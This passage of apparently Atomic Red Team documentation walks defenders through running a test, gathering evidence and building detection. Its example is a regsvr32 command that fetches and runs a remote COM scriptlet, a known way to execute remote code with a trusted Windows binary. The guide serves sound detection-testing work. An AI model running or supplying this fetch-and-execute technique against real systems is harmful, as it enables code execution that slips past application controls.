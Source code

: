 Once you have selected an Atomic Test, we suggest you take a three phase approach to running the test and evaluating results:

![Phases](https://www.redcanary.com/wp-content/uploads/image2-5.png)

### Phase 1: Execute Test

In this example we will use Technique T1117 "Regsvr32" and Atomic Test "Regsvr32 remote COM scriptlet execution". This particular 
test is fairly easy to exercise since the tool is on all Windows workstations by default.

The details of this test, [which are located here](atomics/T1117/T1117.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution),
describe how you can test your detection by simply running the below command:

```
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
```

### Phase 2: Collect Evidence

What does your security solution observe?
- You may see a file modification in the user’s profile.
- You may detect network connections made by regsvr32.exe to an external IP.
- There may be an entry in the proxy logs.
- You may observe the scrobj.dll loading on Windows.
- Or you might not observe any behavior on the endpoint or network.

This is why we test! We want to identify visibility gaps and determine where we need to make improvements.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

### Phase 3: Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations
and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately
tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression,
you are going to be digging out from a mountain of false positives. But if you write it too narrow and it
only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly
modify their command line to evade your detection.

